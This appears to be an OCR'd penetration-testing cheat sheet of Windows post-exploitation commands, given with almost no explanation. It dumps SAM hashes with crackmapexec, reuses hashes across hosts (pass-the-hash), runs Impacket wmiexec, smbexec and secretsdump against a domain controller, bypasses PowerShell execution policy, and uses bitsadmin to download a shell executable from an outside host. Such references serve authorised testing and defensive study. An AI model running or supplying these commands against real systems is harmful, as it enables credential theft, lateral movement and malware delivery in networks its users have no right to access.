 ## Dumping SAM

### Dump Sam File

```
crackmapexec smb 10.0.0.75 -d ADMIN -u JSMITH -p 'P@ssWord!' --sam
```

### Check for Local Account Credential Reuse with SAM file hash

```
crackmapexec smb /root/Desktop/networks.txt -d WORKGROUP -u Administrator -H <LM:NTLM HASH>
```

## Network Share Auditing

* [https://github.com/Dionach/ShareAudit/blob/master/README.md](https://github.com/Dionach/ShareAudit/blob/master/README.md)

## Impacket Tools

### WMIEXEC

```
./wmiexec.py -hashes <NTLM Hash> Administrator@10.0.4.21
```

### Secrets Dump

```
impacket-secretsdump -hashes <LTM:NTLM Hash> -just-dc insecuredomain.local/Administrator\$@10.0.64.22
```

### SMBEXEC

```
/usr/local/bin/smbexec.py -hashes <LM:NTLM Hash> Administrator@10.0.65.81
```

## PowerShell Execution Policy Disable:

```
powershell.exe -exec bypass -nop
```

## Bitsadmin

```
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.65.37:8000/shell1.exe c:\shell1.exe
```
